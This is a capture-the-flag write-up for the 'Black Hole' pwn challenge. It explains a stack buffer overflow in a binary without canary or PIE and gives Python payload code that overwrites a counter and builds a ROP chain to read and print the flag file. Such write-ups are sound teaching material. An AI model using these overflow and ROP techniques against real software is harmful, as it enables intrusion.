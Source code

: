 # Black Hole

Points: 200

Description: We flew too close to the black hole! Help us escape!

Creator: nsnc

# Solve

In this program, you are trapped by a black hole, and need to find a way to escape it.
```
Throttle: MAX
Gravity: 10
O                         =>                       |
```

There is a buffer overflow when inputting the captain's name, and since there is no canary and PIE is disabled, it is easy to exploit.
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

The tricky thing about this challenge is that the buffer overflow will overwrite the counter pointing to the offset where the next character will be written to. Writing the correct value there will prevent any infinite loops or unexpected behavior:
```python
payload = b"A" * 140
payload += p64(
    0x90
)  # Overwriting a counter. Must be the correct value to pervent loops or crashes.
```

After that, we can create a simple ropchain using availible gadgets.
```python
payload += p64(pop_rdi)  # Sets up argument to readfile
payload += p64(flag_address)  # Pointer to './flag.txt'
payload += p64(read_file) # Address of readfile (returns a pointer to the content of a file in rax)
payload += p64(print_rax) # mov rdi, rax; call puts
```

```
Throttle: 3
Gravity: 17
O     =>                                           |
> You lose AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb8!
Sorry, you died!
pctf{th1s_l1ttle_man0uver_just_c0st_us_51_y34r5}
```
